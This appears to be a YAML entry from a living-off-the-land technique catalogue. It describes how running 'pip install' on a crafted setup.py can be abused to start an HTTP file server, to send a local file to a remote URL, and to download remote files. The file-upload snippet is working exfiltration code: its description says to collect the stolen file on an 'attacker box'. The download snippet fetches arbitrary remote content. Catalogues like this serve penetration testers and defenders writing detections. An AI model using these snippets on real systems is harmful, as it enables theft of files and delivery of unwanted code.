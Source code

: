 ```yaml
---
functions:
  server:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        pip install $TF
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))' > $TF/setup.py
        pip install $TF
  file-download:
    - description: Fetch a remote file via HTTP GET request. It needs an absolute local file path.
      code: |
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["$URL"], e["$LFILE"])' > $TF/setup.py
        pip install $TF
---
```

